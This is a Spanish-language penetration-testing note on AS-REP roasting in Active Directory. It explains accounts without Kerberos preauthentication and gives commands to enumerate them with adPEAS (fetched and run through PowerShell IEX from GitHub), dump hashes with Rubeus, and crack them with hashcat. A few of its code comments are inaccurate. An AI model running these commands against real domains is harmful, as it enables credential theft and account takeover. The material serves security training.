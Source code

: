 # ASREProstable 

Tags: #AD #ASREProstable #Rubeus #HashCat #Windows #Powershell 

El "KRB_AS_REP Roasting" es un ataque dirigido a cuentas en dominios de Active Directory (AD) que tienen habilitada la opción "No requiere preautenticación de Kerberos". Esta configuración permite a un atacante solicitar un ticket de autenticación (AS-REP) sin proporcionar una preautenticación válida. El atacante puede capturar este ticket y descifrarlo fuera de línea para intentar recuperar las contraseñas en texto claro de las cuentas afectadas. Este método explota configuraciones inseguras y puede ser mitigado desactivando dicha propiedad en las cuentas y aplicando contraseñas fuertes junto con políticas de monitoreo.

* [CVE-2022-33679](https://infayer.com/archivos/1661)

```bash 
1. Preautenticación de Kerberos: Normalmente, Kerberos requiere que un usuario proporcione no solo su nombre de usuario sino también su contraseña para obtener un ticket TGT (Ticket Granting Ticket) durante el proceso de autenticación inicial (AS-REQ). Esta es una medida de seguridad diseñada para prevenir ataques de tipo "offline" en los que se intenta adivinar las contraseñas.
    
2. Cuentas sin Preautenticación: Sin embargo, en algunos casos, esta propiedad puede estar deshabilitada para ciertas cuentas debido a necesidades de compatibilidad o configuraciones erróneas. Esto significa que el KDC (Key Distribution Center) enviará la respuesta (AS-REP) que contiene el TGT cifrado sin requerir una prueba válida de conocimiento de la contraseña del usuario.

# Funcionamiento 

1. Enumeración de Usuarios: Un atacante primero enumerará las cuentas de usuario que tienen deshabilitada la preautenticación de Kerberos.
    
2. Solicitud de TGT: Luego, el atacante puede enviar una solicitud AS-REQ para esas cuentas y el KDC responderá con un AS-REP que contiene el TGT cifrado usando la contraseña del usuario.
    
3. Ataque Offline: A diferencia de un ataque de fuerza bruta online, el atacante puede ahora intentar descifrar el TGT offline, utilizando herramientas de cracking de contraseñas para adivinar la contraseña sin alertar al sistema o bloquear la cuenta de usuario.
```

## Obtener Hash con ADPeas

```bash 
# Ejemplo de un hash 'Kerberoasteable'
❯ $krb5asrep$23$asrep.user@domain1.corp:0939461A3CF12B34FC2EEDE8C8154E15$55613643FA62AB315871CFD2D3...

Nota: 
	1. Guardar el Hash en una sola linea en un documento .txt
```

* [ADPeas](https://github.com/61106960/adPEAS)

```powershell 
❯ IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/61106960/adPEAS/main/adPEAS.ps1')

❯ Invoke-adPEAS    # Módulo para hacer la enumeración automatizada
```

## Rubeus

```bash 
1. Solicitar Tickets Kerberos (TGTs): Rubeus puede solicitar Ticket Granting Tickets (TGTs) utilizando contraseñas, hashes o incluso claves.
    
2. Kerberoasting: Rubeus es capaz de solicitar Ticket Granting Service (TGS) tickets para cuentas de servicio y luego intentar descifrar estos tickets fuera de línea para obtener contraseñas en texto claro, una técnica conocida como Kerberoasting.
    
3. Overpass (Pass-the-Ticket): Rubeus puede realizar ataques de "Overpass", donde los TGTs son utilizados para autenticarse en otros sistemas sin conocer la contraseña del usuario.
    
4. Ticket Renewal: Puede renovar tickets válidos que aún estén dentro de su período de renovación.
    
5. Dumping Tickets: Rubeus puede extraer tickets de la memoria y almacenarlos para su uso o análisis posterior.
    
6. Manipulación de Tickets: Puede purgar, renovar e incluso falsificar tickets de Kerberos.
    
7. Hunting de Tickets: Rubeus puede buscar en la red tickets específicos que proporcionen acceso a ciertos recursos o que posean ciertos privilegios.
    
8. Ataques de Fuerza Bruta: Puede intentar fuerza bruta contra cuentas de usuario con el objetivo de obtener un TGT.
```

* [Rubeus](https://github.com/GhostPack/Rubeus)

```powershell
❯ .\Rubeus.exe asreproast /user:asrep.user /format:hashcat /outfile:hashes.asreproast 

	# user = Usuario vulnerable
	# outfile = Exportar a un archivo 

Nota:
	1. Al finalizar crea un archivo en 'C:\Users\admin\Desktop\hashes.asreproast' donde se encuentra el hash asreproast
```

## Crackear el Hash obtenido 

```bash 
# Guardar y crackear el hash con 'Hashcat'
❯ hashcat -m 18200 hashes.asreproast /usr/share/wordlists/rockyou.txt --force

	# m = Método por fuerza bruta
	# 18200 = Es un ASREProstable
	# hashes.asreproast = Archivo que contiene el hash 
	# rockyou = Diccionario a usar 
```